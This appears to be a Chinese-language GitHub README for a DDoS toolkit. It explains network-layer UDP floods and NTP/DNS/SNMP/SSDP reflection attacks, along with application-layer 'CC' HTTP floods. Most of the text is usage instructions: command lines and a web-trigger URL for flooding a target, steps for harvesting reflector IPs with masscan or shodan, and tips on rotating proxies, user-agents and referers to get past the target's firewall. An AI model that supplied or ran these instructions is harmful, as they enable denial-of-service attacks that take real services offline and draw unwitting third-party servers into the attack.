 # 常用dddos工具集合
## 目录
* [DDOS攻击简介](#DDOS攻击简介)
* [本工具攻击方法简介](#本工具攻击方法简介)
* [本工具使用方法](#使用方法)


### 一.DDOS攻击简介

 根据DDOS攻击的类型，可以简单分为两类 网络层DDOS攻击 和 应用层DDOS攻击

#### 1. 网络层DDOS攻击
>常见的网络层DDoS攻击就是利用TCP/IP协议族的一些特征，控制大量的傀儡机发送合理的请求来消耗攻击目标主机的网络资源。

>常见的网络层DDoS攻击方式有：
SYN Flood、ACK Flood、Connection Flood、UDP Flood、ICMP Flood、TCP Flood、Proxy Flood， SSDP等。

#### 2. 应用层DDOS攻击
 >常见的应用层DDoS攻击主要是消耗主机的CPU和内存等资源。

 >常见的应用层DDoS攻击方式有：
Slowloris 攻击，Slow Attack，JavaScript DDoS，ReDoS 攻击，DNS Query Flood

### 二.本工具攻击方法简介

#### 网络层UDP攻击(/udp/)：

>原理：发送海量数据包，顷刻占满目标系统的全部带宽，正常请求被堵在门外，拒绝服务的目的达成。
```
    1.UDP直接攻击（/udp/local/udpflood.php ）
        优点：操作简单，直接在本机上即可发动攻击
        缺点：由于本机发送大量UDP请求可能会被服务器商警告，或者在路由上被丢弃，且大型站点的机房都有防御，UDP直接攻击流量峰值无法突破大型站点的防御。正常应用情况下，UDP 包双向流量会基本相等，因此在消耗对方资源的时候也在消耗自己的资源。

    2.UDP反射型攻击（/udp/proxy/Saddam.py）
        优点：可以用较小的流量达到较大的攻击流量，且流量来自世界各地的真实服务器，难以被拦截。
        缺点：操作复杂，需收集大量IP，且需要机房允许发送伪造的数据包（大部分正规机房不允许发送伪造的UDP数据包）
```

#### 应用层CC攻击(/cc/):

> 原理：对一些消耗资源较大的应用页面不断发起正常的请求，以达到消耗服务器端资源的目的。在Web应用中，查询数据库、读写硬盘文件等操作，相对都会消耗比较多的资源。

    1.CC直接攻击（/cc/local.py）
      优点：操作便捷，使用本机运行程序攻击
      缺点：单IP请求太频繁容易被目标站防火墙拦截禁封IP

    2.CC代理攻击（/cc/proxy-txt.py）
      优点：使用大量代理IP攻击，不易被拦截
      缺点：需要购买大量代理IP

### 三.使用方法
    如果要攻击的站点使用的是独立IP，可以直接输入IP地址
    如果要攻击的站点为某个网址，建议修改/etc/hosts，绑定要攻击域名与IP，减少DNS查询次数

#### 网络层UDP攻击(/udp/)

1. UDP直接攻击(/udp/local/)
```sh
    #php版本 > 5.4
    1.访问网址调用
      http://127.0.0.1/udpflood-web.php?pass=1f3870be274f6c49b3e31a0c6728957f&host=www.test.com&port=80&time=99999&packet=9999&bytes=999
    2.运行PHP文件调用
      php ./udpflood.php  host=www.test.com port=80 time=99999 packet=9999 bytes=999
```
2. UDP反射攻击(/udp/proxy/)
```sh
    #python版本2.7
    1.收集IP地址
      使用工具（如：masscan或者shodan）查找出大量开启NTP服务123端口的服务器IP，保存到ntp.txt文件
    2.填写参数运行python程序
      python Saddam.py www.test.com benchmark -n ntp.txt 
```
    > 此处以ntp攻击为例，其他反射攻击收集不同端口IP地址并修改 -n ntp.txt 即可，(-d dns反射攻击，-s snmp反射攻击， -p ssdp放射攻击)

#### 应用层CC攻击(/cc/)
> python版本3.6
1. CC直接攻击(cc/local.py)
```sh
#get请求攻击 
  python3 local-post.py -v http://www.test.com/search.php?searchword=
#post请求攻击 
  python3 local-post.py -v http://www.test.com/search.php -p searchword
```

2. CC代理攻击(cc/proxy/)
```sh
#随机调用files/proxy.txt代理请求攻击 
  python3 proxy-txt.py -v http://www.test.com/search.php?keyword=
#使用luminati代理接口(修改proxyUser和proxyPass为自己的账户)
  python3 proxy-lum.py -v http://www.test.com/search.php?keyword=
#使用abuyun代理接口(修改proxyUser和proxyPass为自己的账户)
  python3 proxy-lum.py -v http://www.test.com/search.php?keyword=
```

##### 参数说明
- v 必选 待攻击网址或ip地址，例：-v www.test.com
- p 可选 post请求参数，例：-p searchword

##### files目录文件说明
- proxy.txt 随机代理，一行一个
- user-agents.txt 随机请求头，一行一个，防止目标站防火墙特征识别
- referers.txt 来路域名，一行一个
- keywords.txt 搜索关键词，一行一个
